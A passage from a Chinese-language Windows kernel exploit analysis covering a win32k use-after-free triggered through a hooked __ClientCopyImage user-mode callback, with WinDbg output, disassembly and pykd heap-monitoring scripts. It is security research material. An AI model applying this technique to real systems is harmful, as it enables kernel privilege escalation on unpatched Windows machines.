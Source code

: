 ```
kd> dds 0x7708d568 + 0x4*0x36 L1
7708d640 7707f55f USER32!__ClientCopyImage
```
回忆一下 2.3 节，这个用户模式回调函数可以被挂钩。注意现在这个回调函数指向我们的利用程序定义的钩子（ripmtso!hookClientCopyImage）：
```
kd> dds 0x7708d568 + 0x4*0x36 L1
7708d640 010f1490 ripmtso!hookClientCopyImage
[z:\expdev\workspace\ripmtso\ripmtso\main.c @ 637]
```
## 3.4. 使用已经释放了的内存

```
断点                                       分析
win32k!xxxCreateClassSmIcon+0x7a          beforeCCI()
win32k!xxxCreateClassSmIcon+0x7f          afterCCI()
nt!RtlFreeHeap                            monitorRtlFreeHeap()
nt!RtlAllocateHeap                        monitorRtlAllocateHeap_1
nt!RtlAllocateHeap+0x10e                  monitorRtlAllocateHeap_2
```

我使用 xxxCreateSmIcon 来观察这个释放后重用场景：
```
.text:BF8A3A76                        push      ecx
.text:BF8A3A77                        push      edx ; win32k!xxxCreateClassSmIcon+0x7a
.text:BF8A3A78                        call      _xxxClientCopyImage@20 ; leads to user-mode
callback
.text:BF8A3A7D                        lea       esi, [edi+58h] ;
```

win32k!xxxCreateClassSmIcon+0x7f，edi 寄存器指向 win32k!tagCLS 结构

相关的分析逻辑：
```python
def disable_bp(bp_symbol):
     console = pykd.dbgCommand("bl").split()
     for i in range(0, len(console)):
          if console[i] == bp_symbol:
               index = i
               break
     pykd.dbgCommand("bd %s" % console[i-7])
     print("[+] Breakpoint %s disabled!" % console[i-7])
def beforeCCI():
     tagCLS = pykd.dbgCommand("?edi").split()[4]
     print("[+] tagCLS allocated @: %s" % tagCLS)
def afterCCI():
     # disable_bp(u'nt!RtlFreeHeap')
     Pass
```
此外，桌面堆监视：
```python
def monitorRtlFreeHeap():
      parent = pykd.dbgCommand("?poi(esp+4)").split()[4]
      size = pykd.dbgCommand("?poi(esp+8)").split()[4]
      freed_chunk = pykd.dbgCommand("?poi(esp+c)").split()[4]
      print("RtlFreeHeap(0x%s, 0x%s, 0x%s)" % (parent, size, freed_chunk))
      pykd.dbgCommand("g")
def monitorRtlAllocateHeap_1():
      #wingdbstub.Ensure()
      t2 = pykd.dbgCommand("?poi(esp+c)").split()[4]
      t3 = pykd.dbgCommand("?poi(esp+4)").split()[4]
      ptr = pykd.dbgCommand("?eax").split()[4]
      print("[+] RtlAllocateHeap(0x" + t3 +", 0x"+ t2 + "):")
      pykd.dbgCommand("g")
def monitorRtlAllocateHeap_2():
      #wingdbstub.Ensure()
```